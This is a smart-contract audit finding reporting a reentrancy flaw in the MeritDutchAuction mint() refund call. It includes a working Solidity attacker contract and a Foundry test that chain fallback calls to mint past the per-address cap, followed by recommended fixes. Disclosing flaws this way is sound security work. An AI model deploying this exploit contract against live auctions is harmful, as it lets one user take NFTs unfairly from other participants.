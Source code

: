 devblixt

high

# Reentrancy in MeritDutchAuction#mint can result in a single EOA being able to mint much more than cap per address in one transaction

## Summary

A reentrancy vulnerability in mint() function of the MeritDutchAuction contract will enable a user to mint more than maximum cap intended per address in a single transaction. 

## Vulnerability Detail

The contract applies a max cap per address check for minting, which will prevent a single address from minting too many NFTs. Even though a single user can mint more than cap through multiple addresses in multiple transactions, this does not present a user with an unfair advantage. However, if a single user can mint more than the number of NFTs allowed in a single transaction, it can be classified as unfair behavior. The sponsor has also confirmed that it is not something that is intended to happen. 

The mint function of contract, after conducting the ERC721 NFT mint refunds the leftover amount by this method:

```solidity
(bool success, ) = payable(msg.sender).call{value: msg.value - totalPaid}(bytes(""));
```
If the msg.sender is an EOA, the refund is simply transferred into the account. However, if it is a contract, the fallback() function is called, and the contract can call another contract through the fallback function which in turn calls the mint function of the auction contract. This can be done in a chained method with each contract calling another to do the mint, so the resultant NFTs minted in a single transaction by a single EOA is much more than intended. 

## Impact

A malicious user can deploy several contracts and mint much more than the permitted cap per user in a single transaction. This will be unintended behavior according to the contract and unfair to the users. 

## Code Snippet

The issue is in [MeritDutchAuction.sol#L163: ](https://github.com/sherlock-audit/2023-07-beam-auction/blob/main/dutch-nft/src/MeritDutchAuction.sol#L163)

```solidity
(bool success, ) = payable(msg.sender).call{value: msg.value - totalPaid}(bytes(""));
```

Here is a bare minimum smart contract which a malicious user can deploy. It has not been made ERC721 compatible:

```solidity
//SPDX-License-Identifier: MIT
import "../../src/MeritDutchAuction.sol";

pragma solidity ^0.8.18;

contract Extern {
    uint256 constant START_PRICE = 1e18;
    uint256 constant public CAP = 4;
    address nextChain;
    bool isChained;
    MeritDutchAuction auction;
    constructor(address _auction) {
        auction = MeritDutchAuction(_auction);
    }

    function setChain(address _nextChain) public {
        nextChain = _nextChain;
    }

    function setChained(bool _isChained) public {
        isChained = _isChained;
    }

    fallback() payable external {
        uint256 current = START_PRICE * CAP;
        if(msg.value > current) {
        auction.mint{value: current}(CAP);
        }
        if(isChained && (msg.value - current > current)) {
            (bool check, ) = nextChain.call{value: msg.value - current}(bytes(""));
        
        }
    }
}
```
This test can be added to already existing test cases in MeritDutchAuction.t.sol to test this contract: 

```solidity

    function testReentrancy() public {
        uint256 CAP = 4;
        Extern first = new Extern(address(auction));
        Extern second = new Extern(address(auction));
        first.setChain(address(second));
        first.setChained(true);
        address wallet = vm.addr(uint256(keccak256(abi.encodePacked(uint256(1), "kekekekek"))));
        vm.deal(wallet, 1000000000e18);
        vm.warp(startTime);
        (bool success, )  = address(first).call{value: START_PRICE*CAP*4}(bytes(""));
        console.log(auction.minted());
    }

```

On executing the given unit test, we can see that we're able to mint 8 NFTs, which is more than the cap of 4 in a single transaction. 

## Tool used

Manual Review

## Recommendation

There are a few methods that can be implemented to prevent this: 

1. Have a nonReentrant modifier for the mint function
2. Apply mint cap for tx.origin instead of msg.sender